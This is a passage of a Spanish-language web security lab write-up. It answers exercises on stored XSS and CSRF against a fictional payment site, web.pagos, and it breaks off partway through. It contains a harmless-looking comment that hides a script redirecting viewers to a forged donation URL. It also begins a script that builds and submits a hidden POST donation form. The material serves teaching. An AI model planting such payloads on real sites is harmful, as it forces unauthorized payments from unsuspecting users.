  ```bash
        <a href=\"insert_player.php?id=" . $row['playerid'] . "\">(edit player)</a>
        </div>
        </li>\n";
}
``` 

### b) Una vez lo tenéis terminado, pensáis que la eficacia de este ataque aumentaría si no necesitara que el usuario pulse un botón. Con este objetivo, cread un comentario que sirva vuestros propósitos sin levantar ninguna sospecha entre los usuarios que consulten los comentarios sobre un jugador (`show\_comments.php`).

 Para realizar este apartado hemos aprovechado la vulnerabilidad de XSS y hemos insertado el siguiente código JavaScript en el campo “body” del formulario de `show_comments.php`:

```bash
<p>¡Gran jugador! <script>window.location.href = 'http://web.pagos/donate.php?amount=100&receiver=attacker';</script></p>
```

Este comentario parece inofensivo, pero en realidad oculta un script dentro de él que redirige al usuario a la URL maliciosa una vez que consulta los comentarios de un jugador.

### c) Pero web.pagos sólo gestiona pagos y donaciones entre usuarios registrados, puesto que, evidentemente, le tiene que restar los 100€ a la cuenta de algún usuario para poder añadirlos a nuestra cuenta.
### Explicad qué condición se tendrá que cumplir para que se efectúen las donaciones de los usuarios que visualicen el mensaje del apartado anterior o hagan click en el botón del apartado a).
Los usuarios que visualicen el mensaje *¡Gran jugador!* o pinchen en el botón *Profile* deben estar registrados y autenticados en **web.pagos** y tener suficiente saldo en su cuenta para cubrir los 100€.

### d) Si web.pagos modifica la página `donate.php` para que reciba los parámetros a través de POST, quedaría blindada contra este tipo de ataques? En caso negativo, preparad un mensaje que realice un ataque equivalente al de la apartado b) enviando los parámetros “amount” y “receiver” por POST.

Cambiar los parámetros de GET a POST no blindaría completamente la página contra ataques. 

Aunque POST es más seguro que GET para enviar datos sensibles, un atacante aún podría explotar vulnerabilidades CSRF o combinar CSRF con XSS para forzar una donación no autorizada.

De hecho, un atacante podría inyectar este código XSS en el campo “body” de show_comments.php: 

```bash
<p>¡Gran jugador! 
<script>
  // Crear un formulario oculto
  var form = document.createElement('form');
  form.method = 'POST';
  form.action = 'http://web.pagos/donate.php';

  // Añadir parámetros
  var params = {
    amount: 100,
    receiver: 'attacker'
  };

  for (var key in params) {
    var input = document.createElement('input');
```